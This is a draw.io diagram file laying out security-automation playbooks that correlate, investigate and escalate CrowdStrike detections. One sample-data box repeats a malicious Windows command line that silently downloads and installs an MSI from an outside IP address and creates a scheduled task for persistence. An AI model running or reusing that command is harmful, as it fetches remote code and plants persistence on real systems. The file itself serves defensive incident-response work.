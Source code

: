 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="220" width="5410" height="1000" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
